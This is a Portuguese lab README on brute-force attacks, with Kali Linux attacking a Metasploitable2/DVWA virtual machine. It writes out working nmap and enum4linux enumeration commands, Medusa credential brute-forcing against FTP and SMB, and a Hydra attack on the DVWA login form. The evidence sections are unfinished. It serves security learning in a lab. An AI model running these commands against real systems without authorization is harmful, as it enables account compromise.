



# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"


## Evidências

### 1) Resultado do Nmap

*Figura 1 — Resultado do Nmap mostrando portas abertas.*

### 2) Medusa – FTP

*Figura 2 — Medusa encontrou credenciais válidas para FTP.*

### 3) DVWA – Login

*Figura 3 — Tela de login do DVWA usada para testes.*


### 4) Teste
!(imagem4.PNG)


### 5


